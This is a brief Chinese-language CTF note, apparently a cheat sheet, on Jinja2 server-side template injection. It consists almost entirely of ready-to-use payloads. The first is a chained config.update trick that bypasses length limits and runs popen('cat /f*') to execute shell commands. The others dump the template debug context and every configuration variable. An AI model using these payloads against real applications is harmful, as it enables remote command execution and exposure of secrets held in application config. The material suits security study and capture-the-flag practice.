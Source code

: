 ```yaml
---
title: "Jinja2 SSTI"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:40:13+08:00
tags: ["ssti", "ctf"]
draft: false
---
```


## 绕过长度限制 {#绕过长度限制}

```nil
{{config.update(c=config.update)}}
{{config.update(g="__globals__")}}
{{config.c(f=lipsum[config.g])}}
{{config.c(o=config.f.os)}}
{{config.c(p=config.o.popen)}}
{{config.p("cat /f*").read()}}
```


## 调试语句 {#调试语句}

如果启用了调试扩展，将会有一个 `debug` 标签可用于转储当前上下文以及可用的过滤器和
测试。

```html
<pre>
{% debug %}
</pre>
```


## 转储所有配置变量 {#转储所有配置变量}

```html
{{ config }} #In these object you can find all the configured env variables

{% for key, value in config.items() %}
<dt>{{ key|e }}</dt>
<dd>{{ value|e }}</dd>
{% endfor %}
```
